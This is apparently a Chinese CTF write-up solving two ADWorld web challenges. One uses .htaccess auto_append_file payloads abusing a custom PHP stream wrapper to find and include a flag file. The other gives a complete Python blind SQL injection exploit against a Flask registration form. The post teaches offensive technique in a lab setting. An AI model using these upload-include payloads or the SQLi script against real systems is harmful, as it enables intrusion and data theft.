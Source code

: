 ```yaml
---
title: 攻防世界 ADWorld Web 部分题解（2）
key: 12e0dc144ac3749b5f2b7b54f7e9b12d
tags:
  - Writeup
  - CTF
date: 2019-10-07 00:10:06
---
```



## 0x01 blgdel

CISCN-2018-Final

目录扫描发现存在 robots.txt、sql.txt 等文件，robots.txt 内容为：Disallow: /config.txt .

- config.txt 

```php
<?php
class master {
	private $path;
	private $name;
	
	function __construct(){}

	function stream_open($path) {
		if(!preg_match('/(.*)\/(.*)$/s',$path,$array,0,9)) return 1;
		$a =$array[1];
		parse_str($array[2], $array);
		
		if(isset($array['path'])) {
			$this->path=$array['path'];
		}
		else return 1;
		if(isset($array['name'])) {
			$this->name=$array['name'];
		}
		else return 1;
	
		if($a==='upload') {
			return $this->upload($this->path, $this->name);
		}
		elseif($a==='search') {
			return $this->search($this->path,$this->name);
		}
		else return 1;
	}
	function upload($path,$name) {
		if(!preg_match('/^uploads\/[a-z]{10}\/$/is',$path)||empty($_FILES[$name]['tmp_name']))
			return 1;
		
		$filename=$_FILES[$name]['name'];
		echo $filename;
		
		$file=file_get_contents($_FILES[$name]['tmp_name']);
		
		$file=str_replace('<','!',$file);
		$file=str_replace(urldecode('%03'),'!',$file);
		$file=str_replace('"','!',$file);
		$file=str_replace("'",'!',$file);
		$file=str_replace('.','!',$file);
		if(preg_match('/file:|http|pre|etc/is',$file)) {
			echo 'illegalbbbbbb!';
			return 1;
		}
		
		file_put_contents($path.$filename,$file);
		file_put_contents($path.'user.jpg',$file);
		
		echo 'upload success!';
		return 1;
	}
	function search($path,$name) {
		if(!is_dir($path)) {
			echo 'illegal!';
			return 1;
		}
		$files=scandir($path);
		echo '</br>';
		foreach($files as $k=>$v) {
			if(str_ireplace($name,'',$v)!==$v) {
				echo $v.'</br>';
			}
		}
		return 1;
	}
	
	function stream_eof() {
		return true;
	}
	function stream_read() {
		return '';
	}
	function stream_stat() {
		return '';
	}
	
}

stream_wrapper_unregister('php');
stream_wrapper_unregister('phar');
stream_wrapper_unregister('zip');
stream_wrapper_register('master','master');

?>
```

1. config.php 中注册了自定义的 master 协议处理器，同时禁用了 PHP、Phar、Zip等伪协议。

2. upload() 函数中对上传文件的内容进行了过滤，过滤了`<`、`"`、`'`和`.`等字符，统一替换为 `!`，同时黑名单正则匹配过滤了文件中 `file:`、`http`、`pre`、`etc`等关键字。

3. 结合 config.php 内容以及 upload()函数对上传文件内容中 `pre` 关键字的过滤，猜测用户上传文件目录默认包含了 config.php (`php_value auto_prepend_file config.php`). 

- sql.txt

```sql
CREATE DATABASE `sshop` DEFAULT CHARACTER SET utf8 COLLATE utf8_general_ci;
USE `sshop`;
CREATE TABLE `sshop`.`users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NULL DEFAULT NULL,
  `mail` varchar(255) NULL DEFAULT NULL,
  `password` varchar(255) NULL DEFAULT NULL,
  `point` varchar(255) NULL DEFAULT NULL,
  `shopcar` varchar(255) NULL DEFAULT NULL,
  PRIMARY KEY (`id`)
) DEFAULT CHARSET=utf8 COLLATE=utf8_general_ci;
```

`User.php` 头像上传处可上传任意文件（需满足用户积分 >= 100，可通过邀请用户注册获取积分，每成功注册一名用户邀请人将获取 10 积分，注册10个用户邀请人统一填写统一用户即可集齐 100 积分）。

![](/assets/images/move/20191007002644.png)

考虑升级 文件上传漏洞为 **文件上传 + 文件包含**，结合 config.php 的相关限制（无法替换 auto_prepend_file 从而使用PHP、Phar、Zip伪协议）以及无法进行远程文件包含，则将目光放在新注册的 `master` 伪协议上。

分析协议的构成，发现如果我们可以控制协议，则可以给 **任意目录上传/搜索文件**，而协议流程和对象注入差不多，先是执行 __construct 再是 stream_open,upload/search, stream_read... 主要是 upload 和 search，其余方法都做了处理，可以不管。 

上传目录被限制了，我们可以搜索文件。通过上传特定内容的 `.htaccess`，可以实现在任意目录下搜索文件：

```php
php_value auto_append_file master://search/path={}&name={} # 此时注意 / 要替换为 %2f
```

搜索结果可以通过上传并访问一个 1.php 看到 通过几次简单测试，可以得到在如下 payload 时获取到 `hiahiahia_flag` 文件：

```php
php_value auto_append_file master://search/path=%2fhome%2f&name=flag
```

![](/assets/images/move/20191007010459.png)

此时我们再上传一个 `.htaccess`，内容为 `php_value auto_append_file /home/hiahiahia_flag` 即包含 flag，再访问 1.php，即可获取到 flag。

![](/assets/images/move/20191007010618.png)


## 0x02 Flask_SQLi

![](/assets/images/move/20191021000729.png)

基于 Flask 框架开发的一个 Microblog，题目给出了 Web 应用程序源代码，下载源码进行审计。

查看注册框架 `RegistrationForm` 对注册邮箱过滤不严格：

![](/assets/images/move/20191021001150.png)

跟进 `validate_email` 函数:

```python
validate_email() -> Mysql.One -> Mysql.Sel
```

![](/assets/images/move/20191021001553.png)

拼接 SQL 查询语句如下：

```sql
select id from user where email = 'your_input_email'
```

如果注册邮箱已存在则返回 Please use a different email address. 可构造出如下 payload 进行 SQL盲注：

```sql
select id from user where email = 'test'/**/or/**/1=1#/**/@3ND.com'
```

附 exp 如下：

```python
import requests
from bs4 import BeautifulSoup

url = "http://111.198.29.45:53260/register"

r = requests.get(url)
soup = BeautifulSoup(r.text, "html5lib")
token = soup.find_all(id='csrf_token')[0].get("value")

notice = "Please use a different email address."
result = ""

database = "(SELECT/**/GROUP_CONCAT(schema_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP_CONCAT(table_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP_CONCAT(column_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flag)"


for i in range(1, 100):
    for j in range(32, 127):
        payload = "test'/**/or/**/ascii(substr(%s,%d,1))=%d#/**/@3ND.com" % (database, i, j)
        post_data = {
            'csrf_token': token,
            'username': '3ND',
            'email':payload,
            'password':'3ND',
            'password2':'3ND',
            'submit':'Register'
        }
        r = requests.post(url, post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')[0].get("value")
        if notice in r.text:
            result += chr(j)
            print result
            break
```


